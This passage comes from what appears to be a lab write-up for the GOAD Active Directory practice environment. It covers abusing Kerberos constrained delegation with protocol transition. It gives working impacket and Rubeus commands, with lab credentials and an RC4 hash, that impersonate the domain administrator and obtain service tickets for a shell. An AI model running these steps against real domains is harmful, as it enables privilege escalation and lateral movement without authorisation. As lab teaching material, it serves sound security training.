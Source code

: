 > Remark : sharphound seems to not capture the constrained delegation without protocol transition in the lab

- Find all the constrained delegation with impacket :

```bash
findDelegation.py NORTH.SEVENKINGDOMS.LOCAL/arya.stark:Needle -target-domain north.sevenkingdoms.local
```

![deleg_find_delegation.png](/assets/blog/GOAD/deleg_find_delegation.png)


### With protocol transition

![delegation_windows_constrained_user_any.png](/assets/blog/GOAD/delegation_windows_constrained_user_any.png)

- To abuse the constrained delegation with protocol transition, the concept is to first ask a TGT for the user and execute S4U2Self followed by a S4U2Proxy to impersonate an admin user to the SPN on the target.

- From windows with Rubeus:

```powershell
.\Rubeus.exe asktgt /user:jon.snow /domain:north.sevenkingdoms.local /rc4:B8D76E56E9DAC90539AFF05E3CCB1755
.\Rubeus.exe s4u /ticket:put_the__previous_ticket_here /impersonateuser:administrator /msdsspn:CIFS/winterfell /ptt
```

- From linux with impacket:

```bash
getST.py -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '192.168.56.11' 'north.sevenkingdoms.local/jon.snow:iknownothing'
```

- And next we can use the TGS to connect to smb and get a shell with psexec, smbexec, wmiexec, ...

![delegation_constrained_any_linux.png](/assets/blog/GOAD/delegation_constrained_any_linux.png)

> A good thing to know is that the SPN part is not encrypted in the request, so you can change it to the one you want with the following options :
> - on rubeus : /altservice
> - on impacket : -altservice
{: .prompt-tip }


> SPN lists
> Carlos Polop (hacktricks), give a us a useful list of the common SPN and usage on his [silver ticket page](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket#available-services)
{: .prompt-info }


### Without protocol transition

- The constrained delegation with protocol transition was not present originally in the lab, but you can add it with the following commands :
